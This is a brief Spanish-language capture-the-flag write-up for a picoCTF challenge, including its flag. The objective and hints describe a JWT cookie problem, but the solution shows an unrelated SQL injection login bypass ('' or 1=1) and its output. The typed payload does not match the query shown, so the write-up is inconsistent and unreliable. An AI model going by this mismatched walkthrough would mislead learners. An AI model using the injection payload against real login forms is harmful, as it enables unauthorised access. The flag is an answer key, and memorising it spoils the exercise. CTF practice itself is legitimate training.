 Puntos: 400pts
# Objetivo del Nivel

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210

# Pistas del Nivel

- What is that cookie?
- Have you heard of JWT?
# Solución/Resultado/Flag

```html
password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```

picoCTF{3v3n_m0r3_SQL_4424e7af}
# Notas Adicionales
# Referencias

https://play.picoctf.org/practice/challenge/25?assigned=1&page=1&solved=1